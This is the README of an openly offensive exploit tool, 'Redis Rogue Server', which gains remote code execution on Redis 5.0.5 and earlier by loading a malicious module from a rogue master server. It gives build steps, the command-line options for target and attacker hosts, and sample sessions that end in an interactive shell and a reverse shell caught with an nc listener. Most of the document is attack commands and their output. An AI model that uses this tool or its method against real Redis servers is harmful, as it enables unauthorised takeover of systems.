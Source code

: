 # Redis Rogue Server

A exploit for Redis(<=5.0.5) RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

It's also been tested through redis version 5.0.9 (Redis key-value store, PG Wombo)

__Support interactive shell and reverse shell!__

## Requirements

Python 3.6+

## Additontional step
### You don't have to do this unless you believe it's necessary.
If you want to modify or recompile the redis module, you also require `make`.

## Usage

Compile exploit:

``` bash
cd RedisModulesSDK/exp/
make
```

Copy the .so file to same folder with `redis-rogue-server.py`.

```
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
```

## Example

### Interactive shell

```
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] whoami
[>>] :n0b0dy
[<<] 
```

### Reverse shell

Invoke reverse shell:

```
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
______         _ _      ______                         _____
| ___ \       | (_)     | ___ \                       /  ___|
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|
                                     __/ |
                                    |___/
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 127.0.0.1
Reverse server port: 9999
[info] Reverse shell payload sent.
[info] Check at 127.0.0.1:9999
[info] Unload module...
```

Receive reverse shell:

```
➜ nc -lvvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from localhost.localdomain 39312 received!
whoami
n0b0dy
```

## Thanks

* [RicterZ](https://github.com/RicterZ)'s redis exec module: <https://github.com/RicterZ/RedisModules-ExecuteCommand>
